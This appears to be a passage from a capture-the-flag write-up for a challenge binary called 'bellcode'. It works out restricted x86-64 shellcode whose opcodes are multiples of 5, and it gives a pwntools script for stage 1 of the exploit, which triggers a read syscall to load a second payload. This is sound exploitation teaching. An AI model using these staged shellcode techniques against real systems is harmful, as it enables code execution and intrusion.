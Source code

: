With **rax=0** and **rdx=0xfac300**, this is semi-ideal for a **read** syscall!!

With a **read** syscall, we can ideally take in a second input without any restrictions and run it :)

Let's look at what other instructions we can use in our shellcode to help us set up our registers.

```python
# coding: utf-8
from pwn import *

context.arch = 'amd64'

for i in range(0, 0xff, 5):
    print(disasm(i.to_bytes(1, 'little')))

"""
Truncated output:
...
   0:   50                      push   rax
   0:   55                      push   rbp
   0:   5a                      pop    rdx
   0:   5f                      pop    rdi
...
"""
```

Since **rax = 0x0**, we can set **rdi = 0x0** by doing a

```
push rax
pop rdi
```

Finally, after playing around in [defuse.ca](https://defuse.ca/online-x86-assembler.htm) we can set **rsi** with a simple 

```
mov esi, 0xfac300 # or any other address at multiples of 5
```

Finally and most importantly, we are able to call **syscall** since it has an opcode that is also a multiple of 5.


Let's start crafting stage 1 of our exploit!

```python
from pwn import *

context.arch = 'amd64'

p = process('./bellcode')

shellcode = asm("""
push rax
pop rdi
mov esi, 0xfac300
syscall
""")

p.sendline(shellcode)

p.sendline(b"A"*100) # try to send something 

p.interactive()
```
